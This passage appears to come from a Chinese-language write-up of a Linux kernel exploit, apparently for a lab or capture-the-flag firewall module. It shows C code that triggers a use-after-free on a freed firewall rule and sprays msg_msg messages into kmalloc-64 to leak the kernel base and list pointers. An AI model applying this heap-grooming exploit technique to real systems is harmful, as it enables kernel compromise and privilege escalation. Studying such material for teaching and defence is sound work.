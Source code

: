 ### 4.1 步骤1——越界读泄露内核基址、`msg_msg-&gt;m_list.next / prev`

**创建2个消息队列**：

```
[...]

void send_msg(int qid, int size, int c)
`{`
    struct msgbuf
    `{`
        long mtype;
        char mtext[size - 0x30];
    `}` msg;

    msg.mtype = 1;
    memset(msg.mtext, c, sizeof(msg.mtext));

    if (msgsnd(qid, &amp;msg, sizeof(msg.mtext), 0) == -1)
    `{`
        perror("msgsnd");
        exit(1);
    `}`
`}`

[...]

// [1] 先调用msgget()创建两个队列，第一个标记为QID #0，第二个标记为QID #1。
if ((qid[0] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
`{`
    perror("msgget");
    exit(1);
`}`

if ((qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
`{`
    perror("msgget");
    exit(1);
`}`

// [2] 调用 add_rule() 向firewall_rules_in添加inbound规则，再调用 duplicate_rule() 复制到 firewall_rule_out，释放后还能从 firewall_rule_out[1] 访问，触发UAF
add_rule(0, buff, INBOUND);
duplicate_rule(0, INBOUND);
delete_rule(0, INBOUND);

send_msg(qid[0], 0x40, 'A'); // [3] 调用send_msg()，也即对msgsnd()的包装函数，分配3个消息。第1个大小为0x40, 位于队列 QID #0, 由于和刚刚释放的rule位于同一个kmalloc-64，所以能修改该消息的msg_msg头结构。
send_msg(qid[1], 0x40, 'B'); // [4] 第2个消息在队列QID #1中，大小为0x40字节
send_msg(qid[1], 0x1ff8, 0); // [5] 第3个消息在队列QID #1中，大小为0x1ff8字节

[...]
```
